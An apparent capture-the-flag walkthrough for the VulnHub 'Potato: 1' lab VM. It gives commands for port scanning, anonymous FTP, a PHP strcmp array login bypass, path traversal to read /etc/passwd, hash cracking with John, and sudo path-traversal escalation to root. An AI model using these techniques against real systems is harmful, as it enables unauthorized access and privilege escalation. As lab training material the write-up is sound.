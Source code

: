 # Potato: 1 Walkthrough

## Preparation
1. Download Potato.ova file ([Potato.ova](https://download.vulnhub.com/potato/Potato.ova))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
    ![Host-onlyAdapter](./img/potato_server_network.png)

1. Start the Potato virtual machine
    * Turn on the potato virtual machine from the VirtualBox
    ![StartPotato](./img/potato_server_initial.png)

1. Confirm the IP address of the Potato virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
    ![netdiscover](./img/potato_server1.png)  
    ![PotatoIP-Address](./img/potato_server2.png)  
        * 192.168.56.100: DHCP Server
        * **192.168.56.102**: Potato Server

1. Set the Potato IP address to the environment variance  
`export IP=192.168.56.102`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
    ![nmap](./img/potato_server3.png)
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the Potato IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to log in with AnonymousFTP.  

## Initial Access
1. Access the FTP service  
    * `ftp $IP 2112`  
    ![FTP-Access](./img/potato_server4.png)
        * Name: anonymous
        * Password: password (empty is OK)

1. Get index.php.bak and welcome.msg files
    * `get index.php.bak`, `get welcome.msg`  
    ![GetFiles](./img/potato_server5.png)

1. Exit FTP service  
    * Input the `exit`  

1. Confirm the downloaded files  
    * Investigate the "welcome.msg" and confirm the content  -> There is no useful information in this file 
    ![Welcome.msg](./img/potato_server6.png)  
    * Investigate the "index.php.bak" and confirm the content -> the username is fixed to "admin" and the default pass is "potato"  
    ![index.php.bak](./img/potato_server7.png)  
 
1. Since we know the index.php page and the Nmap result shows the 80 port is open, we find accessible files and directories using Gobuster.
    - Set the 80 port URL to the environment variance  
    `export URL="http://$IP:80/"`  
    - Input the following gobuster command  
    `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`  
        * dir: Enumerate directories and files
        * -u: Designate target URL
        * -w: Use dictionary file
    - Find /admin directory
    ![admin_directory](./img/potato_server8.png)

1. Access the /admin page using Burp
    - Proxy -> Intercept -> Intercept on -> Open browser -> Enter "http://192.168.56.102/admin" in the browser  
    - Click "Forward" until Login page is shown
    - Enter "admin" in the User and "test" in the Password and click Login button
    - In the "index.php.bak" file, the password is confirmed using the strcmp() function. In the PHP strcmp() function, we designate an array type, and it causes an error. Unfortunately, "NULL == 0" becomes **True** in PHP specification.
    - Change the input password in the Burp  
    Current: `username=admin&password=test`  
    Changed: `username=admin&password[]=test`  
    ![Burp_password](./img/potato_server9.png)  
    - Change to "Intercept off"
    - Go to the dashboard page and access the Logs page  

## Execution
1. Attempt directory traversal in the Logs page
    - Change to "Intercept on"
    - Select log_01.txt (log_02.txt or log_03.txt is OK) and click the "Get the log" button
    - Change the log_01.txxt file directory  
    Current: `file=log_01.txt`  
    Changed: `../../../../../etc/passwd`  
    ![file_directory](./img/potato_server10.png)  
    ![etc_passwd](./img/potato_server11.png)

1. Make /etc/passwd data file using the Cookie pass and curl command
    - Cookie pass is as follows  
    ![Cookie_pass](./img/potato_server12.png)  
    - Curl command is as follows  
    `curl -X POST -b "pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" -d 'file=../../../../../etc/passwd' "http://192.168.56.102/admin/dashboard.php?page=log" | tr '\0' '\n' | cat > etc_passwd.txt`  
        * -X: Designate HTTP method
        * -b: Send Cookie
        * -d: Send form as POST request
        * tr '\0' '\n': Replace null with carriage return
        * cat > etc_passwd.txt: Output the command result in the etc_passwd.txt

1. Analyze the etc_passwd.txt
    - Extract login-enabled users using the following command  
    `cat etc_passed.txt | grep -P 'sh$'`  
    ![Login-enabled-users](./img/potato_server13.png)
        * grep -P 'sh$' is used to search for lines in a file that end with the string sh
        * Login-enabled users have "bash" or "sh" in the 7th field
        * There are "root", "floarianges", and "webadmin" users
    - Extract users who have password hash from the etc_passed.txt file  
    `cat etc_passwd.txt | grep -P 'sh$' | grep webadmin > webadmin_hash.txt`  
    - Decrypt password hash using John the Ripper  
    `john webadmin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  
    ![john](./img/potato_server14.png)
        * webadmin password: **dragon**  

## Credential Access for general user
1. SSH access
    - From the Nmap result, as the SSH port is open, we attempt to access SSH
    ![SSH-access](./img/potato_server15.png)
        * password: **dragon**
    - Confirm the home directory and access the user.txt file
    ![General-user-text](./img/potato_server16.png)  

## Privilege Escalation
1. Access to the other user home directory
    * While analyzing password hash, we know there is a "florianges" user
    * Access to the "home/floarianges" directory and seek attackable files  
    ![floarianges-home](./img/potato_server17.png)  
    * There is a suspicious "sudo_as_admin_successful" file but the file size is 0 -> Think other approaches

1. Confirm sudo setting  
    * Check webadmin's permission using `sudo-l`
    * password: **dragon**  
    ![sudo-webadmin](./img/potato_server18.png)  
    * webadmin can execute "/bin/nice" program (x has been granted)
    * We find that "/bin/nice" is used to modify the scheduling priority from the man command
    * There is no read permission for the "/notes/clear.sh" and "/notes/id.sh" files  

1. Investigate the "clear.sh" and "id.sh" files' behaviors  
    * `sudo /bin/nice /notes/clear.sh` -> The display is cleared
    * `sudo /bin/nice /notes/id.sh` -> The "id.sh" is implied to be executed with root permission and webadmin may gain root permission
    ![notes-id.sh](./img/potato_server19.png)  

1. Escalation
    * Excecute /bin/bash using nice command  
    **`sudo /bin/nice /notes/../bin/bash`**  
    ![Escalation](./img/potato_server20.png)  
    * Return root permission's prompt (# is displayed)  

## Credential Access for root user
1. Access the "root.txt" file of root user
    * Go to the root directory and access the "root.txt" file  
    ![root.txt](./img/potato_server21.png)